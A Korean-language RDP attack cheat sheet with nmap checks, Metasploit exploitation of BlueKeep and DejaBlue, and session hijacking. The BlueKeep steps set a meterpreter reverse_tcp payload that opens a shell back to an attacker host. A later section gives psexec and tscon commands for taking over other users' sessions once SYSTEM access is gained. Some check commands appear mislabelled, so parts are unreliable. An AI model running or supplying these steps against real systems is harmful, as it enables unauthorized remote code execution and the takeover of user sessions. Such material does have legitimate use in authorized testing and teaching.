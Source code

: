 ### 🐛 RDP 취약점 공격

#### BlueKeep (CVE-2019-0708)

```bash
# BlueKeep 취약점 확인
nmap --script rdp-vuln-ms12-020 -p 3389 {IP}
nmap --script rdp-enum-encryption -p 3389 {IP}

# Metasploit BlueKeep 익스플로잇
msfconsole
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS {IP}
set TARGET 2  # Windows 7 SP1 / 2008 R2 (x64)
set payload windows/x64/meterpreter/reverse_tcp
set LHOST {ATTACKER_IP}
exploit

# 수동 BlueKeep 확인
python3 bluekeep_poc.py {IP} 3389
```

#### DejaBlue (CVE-2019-1181/1182)

```bash
# DejaBlue 취약점 확인
nmap --script rdp-vuln-cve-2019-1181 -p 3389 {IP}

# Metasploit DejaBlue 익스플로잇
use exploit/windows/rdp/cve_2019_1181_rdp_rce
set RHOSTS {IP}
exploit
```

### 🔄 세션 하이재킹 (시스템 접근 후)

```bash
# 활성 세션 확인
query session
query user

# 세션 하이재킹 (SYSTEM 권한 필요)
# 1. SYSTEM 권한 획득
psexec -s cmd.exe

# 2. 세션 하이재킹
tscon {SESSION_ID} /dest:{TARGET_SESSION}

# 3. 또는 특정 사용자 세션에 접근
tscon 1 /dest:console

# RDP 세션 정보 확인
qwinsta
quser
```
